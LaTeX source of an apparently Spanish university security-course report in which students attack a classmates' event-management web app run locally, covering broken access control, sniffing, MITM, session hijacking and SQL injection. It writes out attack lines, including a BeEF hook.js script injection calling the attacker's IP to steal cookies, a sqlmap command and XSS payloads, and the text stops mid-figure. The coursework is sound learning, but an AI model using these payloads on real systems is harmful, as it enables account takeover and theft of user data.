\documentclass{report}
\usepackage[spanish]{babel}
\usepackage[utf8]{inputenc}
\usepackage{graphicx, longtable, float, titlesec, hyperref, xcolor, listings}
\usepackage[margin=3cm]{geometry}

\hypersetup{
    hidelinks = true
}

\titleformat{\chapter}[block]
  {\normalfont\Huge\bfseries}{\thechapter}{20pt}{\Huge}

\begin{document}
    \begin{titlepage}
        \centering
        
\includegraphics[width=0.6\textwidth]{./img/miscelanio/logo.jpg}\\
        \vspace{1cm}
        \LARGE Sistemas de Gestión de Seguridad de Sistemas de Información\\
        \vspace{0.5cm}
        \Large Ingeniería Informática de Gestión y Sistemas de Información\\
        \vspace{3cm}
        \Huge Sistema Web\\
        \vspace{2.5cm}
        \Large Autores:\\
        \vspace{0.2cm}
        \large Xabier Gabiña\\
        \large Ainhize Martinez\\
        \large Marcos Martín\\
        \vfill
        \today
    \end{titlepage}
    \tableofcontents
    \chapter{Introducción}
        El objetivo de este documento es analizar la seguridad de un sistema web mediante el uso de herramientas de seguridad y poniendo a prueba los conocimientos adquiridos en la asignatura de Sistemas de Gestión de Seguridad de Sistemas de Información.\\

        Para ello, vamos a atacar el sistema web de unos compañeros de clase que han desarrollado una página web para la gestión de eventos.\\
        \begin{center}
            \href{https://github.com/ImanolMM/Eventify}{Repositorio proyecto victima}
        \end{center}
        
        Antes de empezar con las pruebas de penetración, vamos a hacer un análisis de la página web usando la herramienta ZAP.
        ZAP es una herramienta de seguridad que nos permite analizar una página web en busca de vulnerabilidades.\\
        \begin{figure}[H]
            \centering
            
\includegraphics[width=1\textwidth]{./img/introduccion/1.png}
            \caption{Análisis de la página web con ZAP}
        \end{figure}
        Como podemos ver, ZAP nos ha encontrado unas cuantas vulnerabilidades.\\
        En el siguiente capitulo vamos a ver cómo podemos explotar estas vulnerabilidades y que podemos hacer con ellas.
    \chapter{Vulnerabilidades}
        \section{Rotura de control de acceso}
            \subsection{Acceso mediante URL}
                Es posible publicar contenido en la página web mediante el uso de la URL.
                Para ello, basta con acceder a la página de creación de eventos y mandar una petición POST con los datos del evento.
                Para ello, podemos usar la herramienta curl de la siguiente forma:\\

                \begin{center}
                    \texttt{curl -X POST -d "titulo=Prueba\&enunciado=Prueba\&opcion1=\&resultado1=\&opcion2=\&resultado2="\\localhost:81/submit\_eventos.php}
                \end{center}

                Una vez enviado, podemos ver que el evento se ha creado correctamente.
                \begin{figure}[H]
                    \centering
                    
\includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.1/1.1.png}
                    \caption{Evento creado mediante URL}
                \end{figure}

                Este tipo de vulnerabilidad es muy peligrosa ya que permite a un atacante crear contenido en la página web sin necesidad de autenticarse y de forma masiva.
                Esto puede llevar a que un atacante pueda crear contenido malicioso en la página web y afectar a los usuarios que visiten la página.               
            \clearpage
        \section{Fallos criptográficos}
            \subsection{Sniffing}
                El Sniffing es un ataque que consiste en capturar el tráfico de una red para obtener información sensible.\\
                Dado que la página web no hace uso de HTTPS, podemos realizar un ataque de tipo Sniffing para obtener los datos de un usuario.
                Para ello, vamos a utilizar la herramienta Wireshark.
                Wireshark es un analizador de protocolos de red que nos permite capturar y analizar el tráfico de una red.\\

                En este caso, voy a intentar iniciar sesión en la página web y capturar el tráfico para ver si puedo obtener la contraseña.
                Dado que Wireshark permite varias interfaces de captura, en mi caso, al estar corriendo el contenedor en local, voy a utilizar la interfaz de loopback.
                En un ataque real es importante hacer uso bien de la interfaz ethernet en caso de usar cable o de la interfaz wifi en caso de usar una red inalámbrica.
                \begin{figure}[H]
                    \centering
                    
\includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.2/1.1.png}
                    \caption{Captura de tráfico con Wireshark}
                \end{figure}
                Como podemos ver en la imagen, en el paquete se envía el usuario y la contraseña en texto plano.
                Esto no daría acceso a un atacante a la cuenta de un usuario.\\
            \clearpage
            \subsection{MITM}
                Un ataque MITM o ‘Man in the Middle’ es un ataque que consiste en interceptar el tráfico de una red e inyectar o modificar paquetes.
                En este caso, vamos a realizar un ataque MITM para modificar el tráfico de la red y poder modificar las publicaciones de un usuario.
                Para ello, hare uso de la herramienta Burp Suite.
                Burp Suite es una herramienta muy completa que nos permite realizar ataques MITM, analizar el tráfico de una red, realizar ataques de tipo XSS, etc.\\

                Para realizar el ataque, vamos a utilizar el navegador de Burp Suite que viene preconfigurado con un proxy para poder realizar el ataque MITM.
                Primero de todo accedemos a la página web y vamos a crear un evento.
                \begin{figure}[H]
                    \centering
                    
\includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.2/2.1.png}
                    \caption{Creación de evento}
                \end{figure}
                \clearpage
                Antes de darle al botón de crear, vamos a decirle a Burp Suite que active el intercept para que nos muestre los paquetes que se envían.
                \begin{figure}[H]
                    \centering
                    
\includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.2/2.2.png}
                    \caption{Activación del intercept}
                \end{figure}
                Una vez activado, le damos al botón de crear y nos aparecerá el paquete que se envía.
                \begin{figure}[H]
                    \centering
                    
\includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.2/2.3.png}
                    \caption{Paquete enviado}
                \end{figure}
                \clearpage
                Como podemos ver, el paquete contiene el titulo y la descripción del evento en texto plano.
                Esto nos permite modificar el contenido del evento antes de que se cree.
                Para ello, vamos a modificar el título del evento y le damos al botón de 'Forward'.
                \begin{figure}[H]
                    \centering
                    
\includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.2/2.4.png}
                    \caption{Modificación del paquete}
                \end{figure}
                Ahora al acceder a la página web, podemos ver que el título del evento ha cambiado por el que hemos puesto nosotros.
                \begin{figure}[H]
                    \centering
                    
\includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.2/2.5.png}
                    \caption{Evento modificado}
                \end{figure}
                Este tipo de ataque es muy peligroso ya que nos permite modificar el contenido de la página web y realizar acciones en nombre de la víctima.
                En este caso, hemos modificado el título de un evento, pero podríamos haber modificado cualquier otro campo de la página web llegando a poder afectar al usuario.
                \clearpage
            \subsection{Session Hijacking}
                Session Hijacking es un ataque que consiste en robar la sesión de un usuario para poder acceder a la página web en su nombre.
                En este caso, vamos a realizar un ataque de Session Hijacking para acceder a la página web en nombre de un usuario.
                Para ello, vamos a utilizar la herramienta de BeEF.
                BeEF es una herramienta que mediante XSS nos da control sobre el navegador de la víctima.\\

                \textbf{Nota:} Para este ataque es necesario usar XSS el cual se explicará en la sección 2.3.2.\\

                Para empezar, vamos a iniciar el servidor de BeEF.
                \begin{center}
                    \texttt{sudo beef-xss}
                \end{center}
                \begin{figure}[H]
                    \centering
                    
\includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.2/3.1.png}
                    \caption{Servidor de BeEF}
                \end{figure}
                \clearpage
                Una vez iniciado, vamos a crear un evento en la página web y vamos a inyectar el siguiente código en el campo 'Titulo':
                \begin{center}
                    \texttt{<script src="http://IP:3000/hook.js"></script>}
                \end{center}
                Siendo IP la IP de la maquina donde está corriendo el servidor de BeEF, en mi caso, 192.168.1.69.
                \begin{figure}[H]
                    \centering
                    
\includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.2/3.2.png}
                    \caption{Inyección de código}
                \end{figure}
                Este código nos permite ejecutar código en el navegador de la víctima.
                Una vez inyectado, veremos cómo nos aparece un nuevo cliente en la interfaz de BeEF.
                \begin{figure}[H]
                    \centering
                    
\includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.2/3.3.png}
                    \caption{Cliente de BeEF}
                \end{figure}
                Es desde aquí donde podemos realizar un montón de acciones en el navegador de la víctima.
                En este caso, vamos a realizar un ataque de Session Hijacking.
                Para ello, vamos a utilizar la opción 'Get Cookie' que nos permite obtener la cookie de la víctima.
                \begin{figure}[H]
                    \centering
                    
\includegraphics[width=0.25\textwidth]{./img/vulnerabilidades/2.2/3.4.png}
                    \caption{Módulos de BeEF}
                \end{figure}
                \begin{figure}[H]
                    \centering
                    
\includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.2/3.5.png}
                    \caption{Obtención de la cookie}
                \end{figure}
                Esto nos devuelve la cookie de la víctima la cual podemos usar para iniciar sesión en la página web en su nombre.\\

                Cabe mencionar que BeEF es una herramienta muy potente que nos permite realizar un montón de ataques además de este.
                Por ejemplo, podemos redirigir a la víctima a una página maliciosa para realizar un ataque de tipo Phishing,
                realizar descargas de archivos maliciosos,
                realizar fotos mediante la webcam de la víctima,
                etc.
                \clearpage
        \section{Inyecciones}
            \subsection{SQL Injection}
                La primera vulnerabilidad que vamos a probar es la de SQL Injection con la intención de obtener información de la base de datos.
                Para el análisis de esta vulnerabilidad vamos a utilizar la herramienta sqlmap. 
                Esta herramienta nos permite analizar una URL y comprobar si es vulnerable a SQL Injection de forma sencilla y automatizada.
                Una vez instalada, hemos ejecutado el siguiente comando para realizar las pruebas:\\
                \begin{center}
                    \texttt{sqlmap -u http://localhost:81/login.php --wizard}
                \end{center}
                Este análisis nos ha dado como resultado que la URL es vulnerable a 3 tipos de SQL Injection:
                \begin{itemize}
                    \item Boolean-based blind SQL injection
                    \item Error-based SQL injection
                    \item Time-based blind SQL injection
                \end{itemize}
                \begin{figure}[H]
                    \centering
                    
\includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.3/1.1.png}
                    \caption{Puntos de inyección}
                \end{figure}
                \clearpage
                Y es mediante el uso de estas vulnerabilidades que sqlmap, automáticamente, ha conseguido obtener las dos tablas de la base de datos:
                \begin{figure}[H]
                    \centering
                    
\includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.3/1.2.png}
                    \caption{Tabla usuarios de la base de datos}
                \end{figure}
                \begin{figure}[H]
                    \centering
                    
\includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.3/1.3.png}
                    \caption{Tabla eventos de la base de datos}
                \end{figure}
                \clearpage
            \subsection{Cross Site Scripting}
                Tal y como hemos visto en la Introducción mediante el uso de ZAP hemos encontrado una vulnerabilidad de tipo XSS.
                En este caso, vamos a explotarlas de forma manual para ver qué podemos hacer con ellas.
                Para ello accedemos al menú de 'Crear Evento' y en el campo 'Titulo' podemos introducir los siguientes códigos:
                \begin{enumerate}
                    \item \texttt{<script>alert("XSS")</script>}
                    \begin{itemize}
                        \item Este código nos muestra un mensaje de alerta con el texto 'XSS'
                        \begin{figure}[H]
                            \centering
                            
\includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.3/2.1.png}
                            \caption{Alerta XSS}
                        \end{figure}
                    \end{itemize}
                    \item \texttt{<script>document.location="https://github.com/Xabierland"</script>}
                    \begin{itemize}
                        \item Este código nos redirige a mi página de GitHub
                    \end{itemize}
                    \item \texttt{<img src="https://shorturl.at/avFJO">}
                    \begin{itemize}
                        \item Este código nos muestra una imagen con el texto Pwned!
                        \begin{figure}[H]
                            \centering
                            
\includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.3/2.3.png}
                            \caption{Imagen XSS}
